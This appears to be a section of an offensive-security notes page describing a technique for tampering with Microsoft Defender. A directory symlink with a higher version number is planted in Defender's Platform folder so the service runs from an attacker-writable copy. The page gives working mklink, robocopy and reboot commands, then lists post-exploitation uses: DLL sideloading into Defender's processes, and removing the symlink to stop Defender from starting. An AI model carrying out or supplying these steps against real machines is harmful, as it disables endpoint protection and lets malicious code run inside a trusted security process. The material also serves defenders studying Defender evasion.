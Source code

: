 ## Tampering Microsoft Defender via Platform Version Folder Symlink Hijack

Windows Defender chooses the platform it runs from by enumerating subfolders under:
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

It selects the subfolder with the highest lexicographic version string (e.g., `4.18.25070.5-0`), then starts the Defender service processes from there (updating service/registry paths accordingly). This selection trusts directory entries including directory reparse points (symlinks). An administrator can leverage this to redirect Defender to an attacker-writable path and achieve DLL sideloading or service disruption.

Preconditions
- Local Administrator (needed to create directories/symlinks under the Platform folder)
- Ability to reboot or trigger Defender platform re-selection (service restart on boot)
- Only built-in tools required (mklink)

Why it works
- Defender blocks writes in its own folders, but its platform selection trusts directory entries and picks the lexicographically highest version without validating that the target resolves to a protected/trusted path.

Step-by-step (example)
1) Prepare a writable clone of the current platform folder, e.g. `C:\TMP\AV`:
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) Create a higher-version directory symlink inside Platform pointing to your folder:
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) Trigger selection (reboot recommended):
```cmd
shutdown /r /t 0
```
4) Verify MsMpEng.exe (WinDefend) runs from the redirected path:
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
You should observe the new process path under `C:\TMP\AV\` and the service configuration/registry reflecting that location.

Post-exploitation options
- DLL sideloading/code execution: Drop/replace DLLs that Defender loads from its application directory to execute code in Defender’s processes. See the section above: [DLL Sideloading & Proxying](#dll-sideloading--proxying).
- Service kill/denial: Remove the version-symlink so on next start the configured path doesn’t resolve and Defender fails to start:
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```
